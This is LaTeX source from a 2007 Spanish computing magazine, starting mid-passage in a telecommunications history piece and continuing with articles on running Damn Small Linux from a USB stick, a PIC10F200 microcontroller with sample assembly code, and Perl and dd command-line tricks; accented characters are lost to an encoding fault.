muri� envenenado en extra�as circunstancias (la versi�n oficial lo
registr� como suicidio aunque no termin� la manzana contaminada con
cianuro). 

Despu�s de Bletchley Park los norteamericanos J.P. Eckert y
J.W. Mauchly crearon ENIAC, computador dise�ado para calcular
trayectorias de proyectiles. 

}
\end{minipage}
}
\end{center}

\pagebreak
\bOpage{introcolor}{0.11}{DOSSIER}

\sectiontext{white}{black}{LAS TEOR�AS}

Y ahora vamos a repasar las teor�as... Una buena pregunta es �Por qu�
vienen despu�s? Realmente, es porque se me ocurri� incluirlas aparte
cuando ya hab�a empezado con los inventos. Alguien puede pensar que
tengo tendencia a valorar m�s las investigaciones pr�cticas, puede ser
que s� y que mi inconsciente me haya traicionado. Recordad:

A veces, el ser humano ve la punta del iceberg y puede aprovecharla
(crear un invento o desarrollo �til). As� se empezaron a explotar los
sistemas el�ctricos sin comprender bien sus leyes. Sin embargo si no
se desarrolla una teor�a que explique el iceberg completo, nunca se
dominar� realmente el fen�meno ni se aprovechar� m�s que
superficialmente. 

\sectiontext{white}{black}{LA TRANSFORMADA DE FOURIER Y EL AN�LISIS
ESPECTRAL}

Jean-Baptiste-Joseph Fourier (nacido en Auxerre en 1768, muerto en
Par�s en 1830 en Par�s) tuvo una vida ajetreada como militar y
pol�tico en la �poca de Napole�n. 

Sin embrago hoy lo recordamos por su contribuci�n a la ciencia. Este
hombre polifac�tico estudi� la propagaci�n del calor y descubri� que
toda funci�n peri�dica, continua o no, se puede expresar como una
serie de funciones senoidales (teorema de Fourier). Este resultado fue
muy criticado por otros cient�ficos de la �poca como Lagrange o
Laplace que defend�an que era imposible obtener una funci�n
discontinua sumando otras continuas 
(realmente, s� que es posible si la suma es infinita).

Si embargo este resultado abri� todo un mundo de la matem�tica
aplicable a muchas ciencias y conocido como an�lisis espectral. La
serie de Fourier (y su versi�n para funciones aperi�dicas: la
transformada de Fourier) es otra forma de representar cualquier
funci�n que puede ser �til para muchos estudios y para resolver
algunas operaciones que de otra forma ser�an excesivamente complejas
(como resolver algunas ecuaciones diferenciales). 

\myfig{0}{fourier.eps}{0.5}
\mycaption{Joseph Fourier}

El an�lisis espectral es importante para la f�sica, la astronom�a y
muchas otras ciencias. Para la telecomunicaci�n es fundamental. Todo
ingeniero de telecomunicaci�n considera tan natural manejar las
transformaciones de Fourier como sumar y restar. Podr�amos decir que
es la teor�a fundamental que permite analizar todas las se�ales y su
procesado. 

Las transformadas de Fourier permiten entender las modulaciones usadas
en radio y televisi�n. Permiten predecir las consecuencias que algunos
procesados que hace el sistema telef�nico van a tener sobre la
voz... Si tuvi�ramos que elegir un patr�n humano de la
telecomunicaci�n Fourier ser�a un serio candidato (Nuestro patr�n
oficial (y divino) es el arc�ngel Gabriel, el mensajero). 

\sectiontext{white}{black}{LAS ECUACIONES DE MAXWELL Y LA TEOR�A ELECTROMAGN�TICA}

James Clerk Maxwell (naci� en Edimburgo en 1831 y muri� en Glenlairen
1879) fue el padre de la teor�a matem�tica del electromagnetismo. La
incre�ble mente matem�tica de Maxwell fue capaz de estudiar la obra de
muchos investigadores anteriores (Volta, Ampere, Faraday ...) y
resumir sus experimentos en cuatro ecuaciones (ecuaciones de
Maxwell). 

\myfig{0}{maxwell.eps}{0.5}
\mycaption{James Clerk Maxwell}

Desde que Maxwell estableci� sus ecuaciones todos los estudios sobre
electromagnetismo (antenas, ondas libres, ondas guiadas ...) han
consistido en resolverlas en diferentes entornos. 

Albert Einstein describi� el trabajo de Maxwell como "el m�s profundo
y provechoso que la f�sica ha experimentado desde los tiempos de
Newton". En mi opini�n, el genio alem�n recordaba que calcular
trayectorias, velocidades, fuerzas.. no fue un problema desde que se
enunciaron las leyes de Newton, al igual que el c�lculo
electromagn�tico qued� definido por las cuatro ecuaciones de Maxwell. 
 
Maxwell ser�a sin duda un buen candidato al t�tulo de patr�n de las
telecomunicaciones. No me pregunt�is si voto por �l o por Fourier, no
sabr�a qu� decir.

\sectiontext{white}{black}{LA TEOR�A DE LA INFORMACI�N}

Durante mucho tiempo (pr�cticamente desde que se fund� la Escuela de
Madrid en 1931 hasta los a�os 80) la preocupaci�n principal del
ingeniero de telecomunicaci�n era transmitir y/o procesar las se�ales
b�sicas de la comunicaci�n humana directa: voz, sonido (que es una
se�al m�s rica que la voz) e imagen.

\ebOpage{introcolor}{0.11}{DOSSIER}

Sin embargo, desde Morse, existe otro tipo de se�al: los
datos. Aunque, como digo, existieron siempre la preocupaci�n por los
datos se dispar� con los ordenadores y la posibilidad de comunicarlos
(telem�tica, ver apartado de internet).

As� como la teor�a para estudiar las se�ales de audio o imagen es muy
antigua (y basada en la transformada de Fourier). Hasta 1948 no se
public� una teor�a que caracterizara matem�ticamente los datos. Esa
nueva ciencia se llam� ``Teor�a de la Informaci�n'' y su padre fue
Claude Shannon. 

Shannon era ingeniero el�ctrico por la Universidad de Michigan y
realiz� una tesis doctoral en el MIT (Instituto de Tecnolog�a de
Massachussets) donde estudi� las aplicaciones del �lgebra booleana (o
binaria) a la conmutaci�n y a los circuitos digitales (ver Cuadro 5.1).

Shannon pas� quince a�os en los laboratorios Bell (ver Cuadro 5.2),
donde trabaj� con grandes cient�ficos como Harry Nyquist (padre de la
teor�a que permite digitalizar se�ales (ver Cuadro 5.3), o William Bradford Shockley
(inventor del transistor). 

Fu� en este periodo cuando Shannon desarroll� la teor�a de la
informaci�n publicando el libro "Una Teor�a Matem�tica de la
Comunicaci�n". En este trabajo se demostr� que todas las fuentes de
informaci�n (tel�grafo el�ctrico, tel�fono, radio, la gente que habla,
las c�maras de televisi�n, ...) se pueden medir y que los canales de
comunicaci�n tienen una unidad de medida similar. Mostr� tambi�n que
la informaci�n se puede transmitir sobre un canal si, y solamente si,
la magnitud de la fuente no excede la capacidad de transmisi�n del
canal que la conduce, y sent� las bases para la correcci�n de errores,
supresi�n de ruidos y redundancia. 

Claude Elwood Shannon falleci� el 24 de febrero del a�o 2001, a la
edad de 84 a�os. Durante sus �ltimos a�os sufri� la terrible
enfermedad de Alzheimer que destruy� su privilegiada mente. 

Shannon sin duda deber�a ser otro candidato a patr�n... Tiene quiz�s
un handicap: creo (y s�lo es una opini�n) que la mayor�a de los
ingenieros recordamos la teor�a de la informaci�n como una disciplina
�rida y dif�cil de estudiar. Sin embargo, eso no deber�a restarle
m�rito a una de las grandes mentes del siglo XX y uno de los padres de
la tecnolog�a digital.

\sectiontext{white}{black}{FINAL}

Para terminar recordaros que �sta es una selecci�n personal. Seguro
que todos pens�is que me he olvidado de alguien o algo. O tal vez que
he incluido algo de menor importancia al resto. Todas las propuestas
son v�lidas. Seguro que si yo mismo releo el art�culo dentro de un par
de meses decido cambiar algo. Comentarios a: fmartin@uvigo.es. 

El apartado de bibliograf�a es muy corto. Todos los datos: fechas,
nombres (algunos de complicada ortograf�a)... proceden de la
enciclopedia libre ``Wikipedia'' (http://es.wikipedia.org). A lo
mejor, deber�amos incluirla como un importante hito. 


\end{multicols}

\vspace{0.6cm}

\begin{center}
\colorbox{introcolor}{
\begin{minipage}{0.9\linewidth}
{
{\centering{\bf CUADRO 5: M�S INFORMACI�N}}

\medskip
\begin{enumerate}
\item Los circuitos digitales no trabajan con se�ales continuas como
  los anal�gicos. Se trata de tratar con valores num�ricos
  generalmente expresados en base 2 (los d�gitos posibles son 0 � 1,
  un d�gito binario se llama bit: binary digit). Si o�s a un ingeniero
  franc�s hablar de televisi�n o telefon�a ``num�ricas'' se refiere a
  sistemas digitales (incluso hay libros traducidos del franc�s que
  hablan de sistemas num�ricos). �No os parece que ``num�rico'' es un
  t�rmino que dice mucho m�s que ``digital''? 

\item S�, s�, lo que pens�is: el departamento de investigaci�n de la
  empresa que fund� Alexander Graham Bell. Hoy d�a el gobierno
  norteamericano oblig� a su divisi�n (para evitar monopolios) dando
  lugar a: Lucent Technologies, AT\&T, Bell Atlantic, Southern Bell,
  Pacific Bell y seguro que se me escapa alguna. 

\item Publicada en 1928 en el art�culo ``Certain topics in Telegraph
  Transmission Theory''. Ahora se conoce como teorema del muestreo o
  teorema de Nyquist (en algunos libros teorema de Nyquist-Shannon). 
\end{enumerate}

}
\end{minipage}
}
\end{center}

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Secci�n Distros
% 
% Incluye imagenes del art�culo
\rput(1,-2.0){\epsfbox{usb_stick1.eps}}
\rput(13,-25){\resizebox{!}{5cm}{{\epsfbox{dsl-boot.eps}}}}

% -------------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.11}{DISTROS}

\mtitle{7cm}{GNU/Linux en USB}

\msubtitle{12cm}{Como llevar nuestro sistema en el bolsillo}

{\sf por Er Viajante}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n
\intro{introcolor}{Q}{u� te parecer�a llevarte tu sistema GNU/Linux a cualquier parte,
guardadito en un bolsillo o en un sobre de papel... que si, que
no... Pedimos disculpas por esta regresi�n infantil. En este art�culo
os vamos a contar como instalar un sistema GNU/Linux completo en una
memoria USB para poder usar vuestro sistema operativo favorito en
cualquier ordenador. 
}

\vspace{2mm}

% Cuerpo del art�culo

Una de las ventajas que tienen los sistemas GNU/Linux es que se pueden
personalizar hasta extremos inconcebibles. Uno de estos casos es la
mini distribuci�n DSL (\verb#http://www.damnsmalllinux.org/#) tambi�n
conocida como {\em Damn Small Linux}, lo que se podr�a traducir por
{\em Linux Malditamente Peque�o} o algo m�s fuerte. 

\sectiontext{white}{black}{�POR QU� DSL?}

Buena pregunta (y no es porque la haya hecho yo :). En realidad, hoy
por hoy, existen un mont�n de distribuciones que se pueden instalar en
un dispositivo de almacenamiento USB de forma sencilla y realmente no
hay mucha diferencia entre utilizar unas u otras. De todas formas,
respondiendo a la pregunta, podemos decir: 

\begin{itemize}
\item De todas las que probamos fue la que dio menos problemas.
\item Est� basada en knoppix, utilizando su sistema de detecci�n de
hardware que nos ofrece cierta seguridad de que funcionar� en la
mayor�a de los ordenadores. 
\item Es muy peque�a y se puede cargar totalmente en RAM como lo que ``vuela''.
\item Tiene un sistema de paquetes de extensi�n {\em myDSL} muy sencillo de utilizar.
\end{itemize}


\sectiontext{white}{black}{LA FORMA FACIL�SIMA}

La forma m�s sencilla de instalar DSL en un dispositivo externo USB es la siguiente:

\begin{itemize}
\item Arranca con el Live-CD que puedes descargarte de
\verb#http://www.damnsmalllinux.org/# 
\item Selecciona el men� instalar en dispositivo USB pulsando con el
bot�n derecho sobre el escritorio (App $\rightarrow$ Tools
$\rightarrow$ Install to Pen-Drive) 
\end{itemize}

Aqu� tendremos que escoger si el dispositivo va a arrancar con bios
USB-ZIP o USB-HDD. Esto ya depender� del sistema final en el que se
vaya a ejecutar y el soporte que de su BIOS para el arranque desde
dispositivos USB. 

\begin{entradilla}
{\em ``{\color{titlecolor}{DSL es una de las distribuciones Linux m�s peque�a}} y que ofrece un conjunto de herramientas bastante completo''}
\end{entradilla}

Seg�n la documentaci�n de {\tt syslinux} el modo recomendado es
USB-HDD, sin embargo, ciertas BIOS solo soportan el modo USB-ZIP en el
que la tabla de particiones del dispositivo USB debe tener un formato
especial. Los ordenadores modernos suelen soportar el sistema USB-HDD,
pero si no est�s seguro comprueba en tu BIOS qu� tipos est�n
soportados. 

Para asegurar, usa dos memorias USB :)

\sectiontext{white}{black}{EXTENSIONES MYDSL}
 
Como coment�bamos m�s arriba, la mini-distro DSL proporciona un
sencillo sistema de extensiones conocidas como {\em myDSL}. En la
propia web de DSL se mantiene un repositorio con varias aplicaciones
empaquetadas utilizando este sistema. Comentaros que existen otros dos
tipos de extensiones que puede manejar DSL: .uci y tar.gz. No las
vamos a discutir en este art�culo pero siempre est� bien saberlo. 

El propio sistema DSL incorpora una herramienta gr�fica para el manejo
de estas extensiones que pod�is encontrar en el men�: 

Applications$\rightarrow$Tools$\rightarrow$myDSL Extension Browser

Estas extensiones tambi�n pueden ser cargadas cuando el sistema
arranca, ya sea configurando los par�metros de arranque del sistema o
simplemente copiando los ficheros .mydsl que nos interesen en el
directorio ra�z del dispositivo USB. 

\raggedcolumns
\eOpage

\rput(6,-22){\resizebox{!}{9.6cm}{{\epsfbox{dsl-usb-install.eps}}}}
\rput(15,-21.5){\resizebox{5.0cm}{!}{{\epsfbox{warnning.eps}}}}
\bOpage{introcolor}{0.11}{DISTROS}

\sectiontext{white}{black}{CREANDO EXTENSIONES}

Una tarea interesante es crear nuestras propias extensiones, de forma que podamos instalar nuestros programas en el dispositivo USB para ejecutarlos en otra m�quina, por ejemplo, a modo de demostraci�n.

Los paquetes myDSL son simples ficheros tar.gz que se descomprimen desde el directorio ra�z, como la mayor�a de los sistemas de paquetes. A modo de ejemplo, vamos a crear un paquete para nuestras pr�cticas de laboratorio de programaci�n intempestiva. Los pasos a seguir ser�an estos:

{\small
\begin{verbatim}
# cd /tmp
# mkdir -p pkg/usr/local/bin
# mkdir -p pkg/usr/local/src
# cp pract1 parct2 parct3 pkg/usr/local/bin
# cp pract1.c parct2.c parct3.c pkg/usr/local/bin
# tar czvf intemps.dsl ./pkg
\end{verbatim}
}

O si hemos sido precavidos y utilizado las {\em Autotools} de GNU...

{\small
\begin{verbatim}
# ./configure --prefix=/tmp/pkg
# make && make install
# cd /tmp
# tar czvf intemps.dsl ./pkg
\end{verbatim}
}

Lo que nos simplifica un mont�n las cosas, sobre todo en cuanto empezamos a tener librer�as, ejecutables, ficheros de configuraci�n, documentaci�n, etc...


\sectiontext{white}{black}{OTRAS VENTAJAS}

Adem�s de todo lo comentado hasta el momento, DSL tiene un par de
caracter�sticas muy interesantes. La primera de ellas es la opci�n de
cargar todo el sistema en memoria RAM, con lo que conseguimos que
nuestro sistema no tenga que acceder al dispositivo USB para nada y
por tanto se ejecute mucho m�s r�pido. 

Para utilizar esta opci�n, solamente tenemos que pasar el par�metro
{\tt toram} al sistema utilizando el prompt que se nos proporciona en
la pantalla de arranque. 

Otra opci�n interesante es que DSL incluye {\tt qemu}, una m�quina
virtual capaz de simular un PC completo. Esto permite a DSL arrancar
en una ventana dentro de una sesi�n Windows, con lo cual podremos
utilizar nuestro sistema incluso si la m�quina no dispone de opciones
de arranque por USB o CD-ROM. 

Finalmente, comentar que DSL tambi�n se puede instalar como un
Live-CD, es decir, como un sistema capaz de arrancar desde un CD-ROM
sin necesidad de instalar ning�n fichero en nuestro disco duro, lo que
se convierte en una interesante opci�n si una determinada m�quina no
dispone de la opci�n de arranque USB. 

Lo interesante de este Live-CD y de donde toma el nombre esta
distribuci�n, es que solamente ocupa 50Mb, por lo que puede grabarse
en un CD de 23 min, de esos peque�itos, e incluso en los promocionales
con forma rectangular y tama�o de tarjeta de visita. 


\sectiontext{white}{black}{HASTA LA PR�XIMA}

En este art�culo os hemos contado algunas de las posibilidades que
ofrecen las nuevas distribuciones de GNU/Linux, centr�ndonos en un
caso concreto: DSL. Como coment�bamos existen muchas otras y las
posibilidades de personalizaci�n de estos sistemas son realmente
incre�bles. No dud�is en enviarnos historias sobre como utiliz�is
vosotros estas herramientas. 

Hasta el pr�ximo n�mero.

\raggedcolumns

\end{multicols}

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Secci�n Electr�nica
%
% Incluye imagen del art�culo
\rput(8.2,-6.8){\resizebox{!}{11cm}{{\epsfbox{image1.eps}}}}

% ---------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.21}{ELECTR�NICA}

\vspace{11.5cm}

\mtitle{5cm}{PIC10F200}

\msubtitle{10cm}{EL M�S PEQUE DE MICROCHIP}

{\sf por Carlos Rodr�guez Alemparte}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% ---------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n 
\intro{introcolor}{A}{ principios del 2.006 llegaron a mis manos las
primeras muestras de este microcontrolador, cortes�a del fabricante
yanki de Arizona MICROCHIP. Desde hace unos 5 a�os vengo probando ya
unos cuantos tipos de microcontroladores PIC, pero tengo que reconocer
que este ha sido uno de los que m�s ha despertado mi curiosidad desde
el momento en que vi el tipo de producto que era en la p�gina web de
Microchip: 
www.MicroChip.com
}

\vspace{2mm}

% Cuerpo del art�culo

 Esta gente estaba apostando por un microcontrolador de prestaciones
 casi rid�culas, poco menos que te daba la risa al ver el tipo de
 arquitectura que ten�a. Sin embargo, al mismo tiempo, te quedabas
 prendado de esa simplicidad casi m�xima, y al instante la siguiente
 pregunta era: ``Bueno, ... y esto ... �cu�nto cuesta?'' Pues la
 respuesta fue que el PIC10F200 se pod�a conseguir al precio de 47
 c�ntimos de euro si ped�a una tandada de 26 unidades junto con otro
 pedido lo suficientemente grande como para que los portes de env�o no
 enmascarasen el precio del producto. Yo la verdad ten�a un pedido de
 unos 600 euros casi, con lo cual los 12.50 euros de portes no eran
 muy significativos. 
 Lo realmente interesante es que tenemos un microcontrolador
 reprogramable con toda su inteligencia por menos de medio Euro, s�,  
menos de 0.50 euros.

\begin{entradilla}
{\em Por {\color{titlecolor}menos de 50 c�ntimos de euro} puedes conseguir todo un microcontrolador}
\end{entradilla}

 Ya han pasado unos meses y, evidentemente, la cosa no ha ido a m�s, y
 me refiero al precio. Ahora, en el mes de Noviembre del 2.006 lo
 podemos conseguir por 36 c�ntimos a partir de 100 unidades comprando
 en Microchip Direct, o sea, directamente al fabricante, cosa que ya
 es posible desde hace unos 2 a�os en Espa�a, con lo cual el
 intermediario que le gana un past�n a este material queda fulminado
 de la cadena comercial de incremento de costes, otro efecto
 beneficioso de la globalizaci�n (y no digo que todos lo sean, ...). A
 continuaci�n, una captura de pantalla de la p�gina de compra de
 MicroChip Direct para el 10F200: 


\raggedcolumns
\eOpage


\begin{flushright}
\msection{introcolor}{black}{0.21}{ELECTR�NICA}
\end{flushright}

\begin{figure}[ht]

\includegraphics[width=0.9\textwidth]{image2.eps}     

{\em P�gina de Compra de Microchip}                       
\end{figure}

\rput(4,-8){\resizebox{7.8cm}{!}{{\epsfbox{image3.eps}}}}

\begin{multicols}{2}
\sectiontext{white}{black}{EL PATILLAJE}

En la siguiente imagen podemos ver un esquema del patillaje del
10F200, con sus 4 puertos de entrada/salida. Salvo el GP3, que s�lo
puede funcionar como entrada o pin de RESET por nivel bajo, seg�n se
configure, cualquiera de los otros 3 pines se puede configurar como
entrada o como salida. Adem�s en estos 3 �ltimos pines (GP2, GP1 y
GP0)  se puede colocar un pull-ip interno de unos 10 K, evitando
componentes externos.  

\vspace{6cm}

{\em Patillaje del PIC10F200}

\bigskip

Una opci�n interesante para el pin GP2 es la de sacar una r�plica del
oscilador interno dividido por 4. El PIC10F200 tiene un oscilador
interno de 4 MHz que le permite procesar instrucciones a 1 MIP ( en
general, ya que los cambios de flujo, como GOTO o CALL por ej.,
consumen lo mismo que  2 instrucciones normales). Esa se�al cuadrada
de 1 MHz puede ser muy �til para multitud de aplicaciones.  

\sectiontext{white}{black}{INSTRUCCIONES Y MEMORIA}

El PICF200 cuenta con 256 instrucciones de FLASH, lo que nos permite
darle hasta 256 �rdenes, del tipo GOTO, CALL, MOV, SWAP, BTFSS, RET,
etc. La FLASH se puede reprogramar hasta unas 100.000 veces, con una
retenci�n en las celdillas de la FLASH de al menos 40 a�os, seg�n
MicroChip.  

Carece de memoria EEPROM y s�lo permite anidar 2 veces la instrucci�n
CALL, o sea, la tercera vez que hagamos un CALL sin un RETLW, nos
vamos a las ``quimbambas'' y a partir de ah� es como jugar a la
loter�a.  

Cuenta con interrupciones, aunque el vector de interrupci�n coincide
con el vector de RESET, o sea que ... , al saltar una interrupci�n en
realidad el micro se resetea y s�lo disponemos de unos bits de estado
especiales en el registro STATUS para enterarnos de si acabamos de
iniciar la ejecuci�n ( arranque o Reset ) o si salt� una
interrupci�n. La verdad es un peque�o engorro, estando acostumbrado a
los 12F y 16F con el vector de interrupci�n en la dir 04 de la FLASH,
y con 8 niveles de anidamiento.  

\begin{entradilla}
{\it El PIC10F200 proporciona una {\color{titlecolor}{pila de solo 2 posiciones}}}
\end{entradilla}


\sectiontext{white}{black}{ALGUNAS APLICACIONES}

As� y todo, para hacer multitud de tonter�as sigue siendo un micro muy
�til y v�lido. Yo la 1� aplicaci�n interesante que le he dado ha sido
la de cargar los registros de un PLL de acceso por bus serie de 3
hilos ( Latch Enable, Clock y Data ) para un ADF4360 de Analog
Devices, para un trabajito para Fernando Isasi, otro entusiasta del
Hardware de la Universidad de Vigo, y padrino tecnol�gico de muchos de
nosotros.  

Y la 2� fue la de secuenciar unos c�digos de destellos para una baliza
�ptica con 1 LED LUXEON III, para un prototipo para el CIS ( Centro de
Investigaciones Submarinas ), otra empresa gallega al alza gracias a
la pol�tica actual que fomenta la Investigaci�n y el Desarrollo
tecnol�gicos. Bueno, espero que mi tocayo del CIS acabe usando esos
LUXEONs en alg�n producto comercial. 



\raggedcolumns

\end{multicols}
\pagebreak

\rput(12.5,-8){\resizebox{7.8cm}{!}{{\epsfbox{image4.eps}}}}
\bOpage{introcolor}{0.21}{ELECTR�NICA}

\sectiontext{white}{black}{UN EJEMPLO}

Y como la teor�a est� muy bien, pero yo soy un fiel defensor de la
pr�ctica y las cosas palpables entre los dedos, a continuaci�n ponemos
un peque�o c�digo fuente en ASM para empezar a hacer pinitos con el
10F200.  

Lo que hace es una parida (una trivialidad, para los que no entienda
el t�rmino): el programa configura los puertos de entrada y salida del
PIC, activa la salida de la onda cuadrada de 1 MHz en el GP2 y despu�s
se pone a chequear un pulsador conectado a un pin de entrada del PIC,
en el GPIO Cero, haciendo un eco de este pin de entrada sobre el LED
conectado al GPIO1, configurado como salida.  

El pulsador dispone de un pull-up interno en el PIC de unos 10 K que
tambi�n activamos previamente, lo cual nos evita poner uno externo. 


 El c�digo m�quina compilado es tan sencillo como el que sigue, en
 formato .hex, lo pongo porque puede ser �til para quien no est�
 familiarizado con el MPLAB (el ensamblador de Microchip): 

\begin{small}
\begin{verbatim}
:020000040000FA
:100000007000090C06000F0C020005050607260407
:0600100006062605060AA3
:021FFE00EB0FE7
:00000001FF
\end{verbatim}
\end{small}



Y a continuaci�n un esquema para ver con claridad lo que debemos de
montar para probar ese c�digo fuente con el 10F200.  

\columnbreak

Es una captura de pantalla de un simulador bastante bueno para
microcontroladores PIC, aunque por desgracia tiene una interfaz con el
usuario que podr�a llevarse todos los primeros premios habidos y por
haber para el programa inform�tico menos intuitivo del mercado. La
verdad es que a�n no he conocido a nadie que haya logrado no cabrearse
al empezar a hacer cosas con el Proteus, lo cual tiene m�rito
(negativo..., pero m�rito). 

\vspace{5cm}

\medskip

Bueno, y sin m�s ... un saludo para todo el grupo del GPI de la
Universidad de Vigo, y para los del Laboratorio 303 de Ingenier�a de
Radio. Si alguien tiene alguda duda o sugerencia ya sabe:  

\medskip

Phone: 649 12 69 62

Mail:   \verb#CarlosAlemparte@uvigo.es#

\raggedcolumns

\end{multicols}

\begin{figure}[ht]
\lstset{language=[x86masm]Assembler,frame=tb,framesep=5pt,basicstyle=\scriptsize}   
\begin{lstlisting}
; PROGRAMA de MUESTRA para el 10F200 by EB1IVJ, 
; Carlos R. Alemparte, Nov 2006
;
; Este programa hace un eco de un pulsador en GPIO_0 sobre un LED en GPIO_1 y saca 
; por GPIO2 una onda cuadrada de 1 MHz, �til como oscilador

LIST        P=10F200 ; mikrokontrolador PIC k usamos

__CONFIG    _CP_OFF & _WDT_OFF & _MCLRE_OFF & _IntRC_OSC  

#include <p10F200.inc> 

#define  PULSADOR GPIO,0  ; pin 1
#define  LED      GPIO,1  ; pin 3

; RAM disponible: Desde H'10' hasta H'1F', s�lo 16 BYTEs
UNA_VARIABLE   EQU 0x10 ; ponemos esto para ver como se asigna un nombre a una variable 


      ORG   0000H         ; monta las instrucciones a partir de la dir H'0000' de la FLASH
      CLRF  UNA_VARIABLE  ; no vale para nada, es para ver como se borra una posici�n de RAM
INI   MOVLW B'00001001'   ; GPIO3=IN  GPIO2=OUT  GPIO1=OUT  GPIO0=IN ; 
                          ; 1s pa ENTRADAs y 0s pa SALIDAs 
      TRIS  GPIO          ; lo mismo que MOVWF TRISIO   ; GP3  es s�lo ENTRADA

      MOVLW B'00001111'   ; habilitamos Pull-Up interno para GPIO, entre otras cosas
      OPTION              ; esta instrucci�n transfiere W a OPTION, 
                          ; que es un registro "fantasma"
      BSF   OSCCAL,FOSC4  ; Oscilador interno de 4 MHz/4 = 1 MHz OUTPUT, se saca por el GP2
           
BUKLE BTFSS PULSADOR
      BCF   LED
      BTFSC PULSADOR
      BSF   LED
      GOTO BUKLE

      END    ; indica al ensamblador el final del c�digo fuente 
\end{lstlisting}
{\em C�digo ASM de nuestro ejemplo}
\end{figure}

\pagebreak
% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

\rput(13,-22){\resizebox{!}{8cm}{{\epsfbox{trick.eps}}}}
\rput(1,-2){\resizebox{!}{5cm}{{\epsfbox{tophat.eps}}}}
\begin{flushright}
\msection{red}{black}{0.1}{TRUCOS}

\mtitle{6cm}{Con un par... de l�neas}

\msubtitle{8cm}{Chuletillas para hacer cosas m� r�pido}

{\sf por Tamariz el de la Perd�z}

{\psset{linecolor=black,linestyle=dotted}\psline(-10,0)}

\end{flushright}

\vspace{4mm}

\begin{multicols}{2}
\raggedcolumns


\sectiontext{white}{black}{PROCESANDO TEXTO CON PERL EN UNA L�NEA}
\hrule
\vspace{2mm}

Aunque el comando grep funciona perfectamente, puede ser �til
simularlo utilizando una l�nea de c�digo Perl.


\vspace{2mm}

\hrule
{\scriptsize
{\begin{lstlisting}{}
perl -e 'while (<>) {print if /hola/;}' mi_fichero
\end{lstlisting}
}
}
\hrule
\vspace{2mm}

O de forma m�s breve utilizando el flag -n que simplemente comparando
estos dos ejemplos sabr�is qu� hace. 

\vspace{2mm}
\hrule
{\scriptsize
{\begin{lstlisting}{}
perl -ne 'print if /hola/;' mi_fichero
\end{lstlisting}
}
}
\hrule
\vspace{2mm}



Vamos con un ejemplo un poco m�s �til. Supongamos que tenemos un fichero con datos ordenados en columnas y queremos quedarnos solamente con la primera (el valor de ordenadas) y la tercera, digamos que para hacer una representaci�n gr�fica solamente de esos datos. El siguiente script:

\vspace{2mm}

\hrule
{\scriptsize
{\begin{lstlisting}{}
perl -e 'while (<>) {@v=split; 
> print "$v[0]\t$v[2]\n"}' mi_fichero
\end{lstlisting}
}
}
\hrule
\vspace{2mm}

Aunque lo podr�amos haber hecho con \texttt{awk} con una l�nea como

{\scriptsize\verb!cat mi_fichero | awk -e '{print \$1,\$2}'!}


\sectiontext{white}{black}{CREAR IMAGEN CD Y ACCEDER A EL}
\hrule
\vspace{2mm}

El siguiente truco nos permite generar una imagen exacta de un CD y acceder a ella. Las siguientes l�neas hacen el trabajo poniendo el contenido el CD en el directorio /mnt/temp.

\vspace{2mm}


\hrule
{\scriptsize
{\begin{lstlisting}{}
# dd if=/dev/cdrom of=mi_imagen.iso
# mount -o loop mi_imagen.iso /mnt/tmp
# ...
# umount /mnt/tmp
\end{lstlisting}
}
}
\hrule
\vspace{2mm}

